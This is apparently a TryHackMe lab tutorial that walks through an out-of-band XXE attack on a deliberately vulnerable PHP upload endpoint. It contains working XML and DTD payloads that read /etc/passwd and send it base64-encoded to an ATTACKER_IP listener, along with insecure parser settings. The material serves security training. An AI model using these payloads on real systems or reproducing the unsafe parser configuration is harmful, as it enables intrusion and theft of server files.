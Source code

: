 **Out-of-band XXE**, on the other hand, refers to an XXE vulnerability where the attacker cannot see the response from the server. This requires using alternative channels, such as DNS or HTTP requests, to exfiltrate data. To extract the data, the attacker must craft a malicious XML payload that will trigger an out-of-band request, such as a DNS query or an HTTP request.

### Out-Of-Band XXE

On the other hand, to demonstrate this vulnerability, go to [http://MACHINE_IP/index.php](http://MACHINE_IP/index.php). The application uses the below code when a user uploads a file:

```php
libxml_disable_entity_loader(false);
$xmlData = file_get_contents('php://input'); 

$doc = new DOMDocument();
$doc->loadXML($xmlData, LIBXML_NOENT | LIBXML_DTDLOAD);

$links = $doc->getElementsByTagName('file');

foreach ($links as $link) {
    $fileLink = $link->nodeValue;
    $stmt = $conn->prepare("INSERT INTO uploads (link, uploaded_date) VALUES (?, NOW())");
    $stmt->bind_param("s", $fileLink);
    $stmt->execute();
    
    if ($stmt->affected_rows > 0) {
        echo "Link saved successfully.";
    } else {
        echo "Error saving link.";
    }
    
    $stmt->close();
}
```

The code above doesn't return the values of the submitted XML data. Hence, the term Out-of-Band since the exfiltrated data has to be captured using an attacker-controlled server.

For this attack, we will need a server that will receive data from other servers. You can use Python's http.server module, although there are options out there, like Apache or Nginx. Using AttackBox or your own machine, start a Python web server by using the command:

Starting a Python Webserver

           `user@tryhack $ python3 -m http.server 1337 Serving HTTP on 0.0.0.0 port 1337 (http://0.0.0.0:1337/) ...`
        

Upload a file in the application and monitor the request that is sent to `submit.php` using your Burp. Forward the request below to Burp Repeater.

![Forward the request to repeater](https://tryhackme-images.s3.amazonaws.com/user-uploads/645b19f5d5848d004ab9c9e2/room-content/0ac465ae50933198b249c9e622cb8d9d.png)  

Using the payload below, replace the value of the XML file in the request and resend it. Note that you have to replace the ATTACKER_IP variable with your own IP.

```xml
<!DOCTYPE foo [
<!ELEMENT foo ANY >
<!ENTITY xxe SYSTEM "http://ATTACKER_IP:1337/" >]>
<upload><file>&xxe;</file></upload>
```

Send the modified HTTP request.

![Modified HTTP request with the payload](https://tryhackme-images.s3.amazonaws.com/user-uploads/645b19f5d5848d004ab9c9e2/room-content/08cbba233f61b8bc17e166c089931bd6.png)  

After sending the modified HTTP request, the Python web server will receive a connection from the target machine. The establishment of a connection with the server indicates that sensitive information can be extracted from the application.

![Python webserver receives a connection](https://tryhackme-images.s3.amazonaws.com/user-uploads/645b19f5d5848d004ab9c9e2/room-content/8cfa02d850cc73372dd6993acd9265fd.png)  

We can now create a DTD file that contains an external entity with a PHP filter to exfiltrate data from the target web application.

Save the sample DTD file below and name it as `sample.dtd`. The payload below will exfiltrate the contents of `/etc/passwd` and send the response back to the attacker-controlled server:

```xml
<!ENTITY % cmd SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">
<!ENTITY % oobxxe "<!ENTITY exfil SYSTEM 'http://ATTACKER_IP:1337/?data=%cmd;'>">
%oobxxe;
```

**DTD Payload Explained**

The DTD begins with a declaration of an entity `%cmd` that points to a system resource. The **`%cmd`** entity refers to a resource within the PHP filter protocol `php://filter/convert.base64-encode/resource=/etc/passwd`. It retrieves the content of `/etc/passwd`, a standard file in Unix-based systems containing user account information. The `convert.base64-encode` filter encodes the content in Base64 format to avoid formatting problems. The **`%oobxxe`** entity contains another XML entity declaration, `exfil`, which has a system identifier pointing to the attacker-controlled server. It includes a parameter named data with `%cmd`, representing the Base64-encoded content of `/etc/passwd`. When `%oobxxe;` is parsed, it creates the `exfil` entity that connects to an attacker's server (`http://ATTACKER_IP:1337/`). The parameter `?data=%cmd` sends the Base64-encoded content from `%cmd`.

Go back to the repeater and change your payload to:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE upload SYSTEM "http://ATTACKER_IP:1337/sample.dtd">
<upload>
    <file>&exfil;</file>
</upload>
```

![Change the payload to the updated external DTD file](https://tryhackme-images.s3.amazonaws.com/user-uploads/645b19f5d5848d004ab9c9e2/room-content/2e5178fb66945cbbb4e855d013690c9c.png)  

Resend the request and check your terminal. You will receive two (2) requests. The first is the request for the sample.dtd file, and the second is the request sent by the vulnerable application containing the encoded /etc/passwd.

![Two external connections received in the webserver with the exfiltrated data](https://tryhackme-images.s3.amazonaws.com/user-uploads/645b19f5d5848d004ab9c9e2/room-content/9c87f37b1fed79110958f8cdfc492c93.png)

Decoding the exfiltrated base64 data will show that it contains the base64 value of /etc/passwd.

![Decoded version of the exfiltrated data](https://tryhackme-images.s3.amazonaws.com/user-uploads/645b19f5d5848d004ab9c9e2/room-content/4ea510718c602ecaa7de8357599e8ab3.png)


